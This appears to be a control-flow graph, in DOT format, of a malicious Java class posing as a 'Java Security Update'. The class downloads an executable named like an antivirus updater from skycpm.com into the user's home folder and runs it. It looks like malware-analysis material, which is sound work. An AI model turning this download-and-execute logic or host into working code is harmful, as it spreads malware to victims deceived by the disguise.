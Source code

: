 digraph "" {
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"
    "push \"user.home\""
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "push \"\\avgupsvc.exe\""
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"push \"\\avgupsvc.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\avgupsvc.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r2"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r2"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r2";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "push \"http://skycpm.com/java/avgupsvc.exe\""
    "load.r r0"->"push \"http://skycpm.com/java/avgupsvc.exe\"";
    "push \"http://skycpm.com/java/avgupsvc.exe\""->"load.r r2";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"
    "load.r r2"->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
}
